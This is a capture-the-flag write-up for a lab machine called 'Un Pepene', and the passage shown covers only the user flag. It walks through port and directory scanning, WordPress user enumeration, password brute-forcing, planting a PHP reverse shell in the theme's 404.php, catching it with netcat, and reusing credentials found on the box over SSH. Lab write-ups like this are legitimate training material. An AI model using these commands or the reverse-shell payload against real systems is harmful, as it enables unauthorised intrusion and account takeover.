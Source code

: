 # CTF: Un Pepene

![Difficulty: Hard](https://img.shields.io/badge/difficulty-hard-%23ff0000)
![Contest Date: 2024-05-14](https://img.shields.io/badge/contest%20date-2024--05--14-informational)
![Category: FTP, Hash, Crontab, SSH Key](https://img.shields.io/badge/category-ftp,hash,crontab,sshkey-%237159c1)
![By: Alexandre & Eloi](https://img.shields.io/badge/by-Alexandre%20%26%20Eloi-%23f9a03c)  
![alt text](img/silence.png)
## Description

> Efectuați un test de penetrare

## Write-up

UserFlag: user.txt  
RootFlag: root.txt

## Flag Solutions

### User Flag

First thing to do is to check open ports on the target machine. We can do this by running a port scan using `nmap`.

```bash
nmap -sSV $IP
```

Results : 
```bash
PORT   STATE SERVICE VERSION

22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)

80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))

MAC Address: 02:85:B5:9A:69:1F (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We have two open ports, 22 and 80. Let's check the web server on port 80.

```bash
http://$IP
```

We found default Debian Apache2 page. Let's check with a gobuster scan.

```bash
gobuster dir --url http://$IP -w /usr/share/wordlists/dirb/common.txt
```

Results : 
```bash
/blog (Status: 301)
```

We have to go to the blog directory.

```bash
http://$IP/blog
```

But we are redirected to an host `http://timetime.thm`. We can add the host to the `/etc/hosts` file.

```bash
echo "$IP timetime.thm" >> /etc/hosts
```

We have a blog page wordpress. We can wpscan to find vulnerabilities.

```bash
wpscan -e u --url http://<HOST>/blog

[i] User(s) Identified:

[+] admin
```

We have an admin user. We can try to bruteforce the password.

```bash
wpscan --url http://<HOST>/blog -U admin -P /usr/share/wordlists/rockyou.txt
```

We have the password for admin `admin`.

We can login to the wordpress admin page.

```bash
http://timetime.thm/blog/wp-admin
```

We can go to the `Appearance` tab and `Editor`. We can edit the `404.php` file and add a reverse shell.

```PHP
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/$IP/$PORT 0>&1'");
?>
```

We can start a listener on the attacker machine.

```bash
nc -lvnp $PORT
```

We can connect to the reverse shell.

```bash
http://timetime.thm/blog/index.php/404.php
```

We are connected to the reverse shell. After long search, we can find a file `wp-save.txt` in the `/opt` directory.

```bash
cat /opt/wp-save.txt
```

We have an user `squeezie` with a password. We can login with the user `squeezie` and the password we found.

```bash
ssh squeezie@$IP
```

We can find the user flag.

**Well done! You found the user flag!**
